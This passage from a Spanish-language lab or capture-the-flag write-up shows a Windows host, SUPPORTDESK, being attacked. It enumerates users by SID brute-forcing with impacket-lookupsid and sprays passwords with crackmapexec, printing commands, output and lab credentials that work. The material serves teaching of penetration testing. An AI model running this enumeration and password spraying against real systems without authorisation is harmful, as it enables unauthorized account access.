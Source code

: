 ## Shell as Chase

- Bueno algo que podemos hacer es usar `lookupsid.py` con esto podemos enumerar mas usuarios validos a nivel de sistema a partir de sus SID correspondientes pero necesitamos el dominio de la maquina a si que vamos a ver cual es con la herramienta de `crackmapexec`.

```bash
➜  content crackmapexec smb 10.129.116.26
SMB         10.129.116.26   445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
```

- Y encontramos nuevos usuarios.

```bash
➜  content impacket-lookupsid SUPPORTDESK/hazard:stealth1agent@10.129.116.26
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 10.129.116.26
[*] StringBinding ncacn_np:10.129.116.26[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```

- Vamos a ver si uno de los usuarios que tenemos reutiliza alguna contraseña de las que tenemos.

```bash
➜  content crackmapexec smb 10.129.116.26 -u users.txt -p creds.txt --continue-on-success
SMB         10.129.116.26   445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         10.129.116.26   445    SUPPORTDESK      [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\rout3r:$uperP@ssword STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\hazard:$uperP@ssword STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\support:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\support:$uperP@ssword STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\support:stealth1agent STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\Chase:$uperP@ssword STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\Chase:stealth1agent STATUS_LOGON_FAILURE
```